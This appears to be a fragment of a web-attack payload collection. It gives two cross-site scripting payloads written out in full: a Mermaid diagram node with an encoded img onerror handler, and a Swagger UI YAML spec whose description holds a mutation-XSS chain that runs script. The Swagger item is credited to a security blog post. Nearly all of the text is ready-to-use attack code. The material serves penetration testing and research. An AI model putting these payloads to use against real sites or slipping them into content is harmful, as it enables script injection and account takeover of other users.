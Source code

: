 ### Mermaid XSS
```markdown
\`\`\`mermaid
graph LR
     id1["<img src=x onerror=alert#lpar;document.domain#rpar;>"]
\`\`\`
```

### Swagger XSS (Credits to Dawid Moczadło - [https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/](https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/))

```yaml
swagger: '2.0'
info:
  title: Example yaml.spec
  description: |
    <math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><img src='#' onerror='alert(window.origin)'>">
paths:
  /accounts:
    get:
      responses:
        '200':
          description: No response was specified
      tags:
        - accounts
      operationId: findAccounts
      summary: Finds all accounts
```
